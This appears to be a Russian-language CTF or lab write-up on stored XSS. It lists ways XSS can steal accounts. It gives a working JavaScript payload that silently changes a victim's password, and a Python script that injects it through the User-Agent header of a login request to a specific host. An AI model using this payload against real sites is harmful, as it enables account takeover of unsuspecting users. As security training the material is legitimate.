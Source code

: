 ![[Pasted image 20240312231514.png]]
Отлично, у нас получилось внедрить свой код.
### Возможные пути кражи аккаунта через XSS:

1. **Кража cookies**: Скрипт может быть направлен на чтение cookies браузера пользователя, включая сессионные токены, которые затем отправляются злоумышленнику. Используя эти данные, злоумышленник может подделать сессию пользователя и получить доступ к его аккаунту.
    
2. **Phishing**: Вредоносный скрипт может перенаправить пользователя на поддельную страницу входа, где жертва, не подозревая обмана, введет свои учетные данные, которые будут перехвачены злоумышленником.
    
3. **Манипуляции с DOM**: Злоумышленник может изменять содержимое веб-страницы в реальном времени, вставляя вредоносные формы или изменяя существующие, чтобы перехватывать данные, вводимые пользователем.
    
4. **Кража токенов аутентификации**: Многие веб-приложения используют токены для подтверждения действий пользователя. XSS может быть использован для кражи этих токенов, позволяя злоумышленнику выполнять действия от имени пользователя.


Давайте рассмотрим 2 варианта проведения таких атак.

# Первый способ (такое)
Залогинимся и попробуем отправить с помощью Javascript запрос о смене пароля

````javascript 
fetch('/index.php', {
  method: 'POST', // Указание на то, что это POST-запрос
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded', // Тип контента, отправляемого на сервер
  },
  body: 'newpassword=1234' // Данные, которые нужно отправить
})
.then(response => {
  if (response.ok) {
    return response.text(); // или response.json(), если ожидается JSON-ответ
  }
  throw new Error('Network response was not ok.');
})
.then(data => console.log(data)) // Обработка данных, полученных в ответе
.catch(error => console.error('There was a problem with your fetch operation:', error));
````

![[Pasted image 20240312235929.png]]F12 -> console
Вставляем и смотрим. При след логине пароль и в правду поменяется на 1234, отлично. Давайте модифицируем наш скрипт для того, чтобы оправлять данный код в payload.
````python 
import requests

newpassword = "<script>fetch('/index.php', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded',},body: 'newpassword=12345'})</script>"


user = "asdf" 
headers = {'User-Agent': newpassword}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
#print(response.text)
````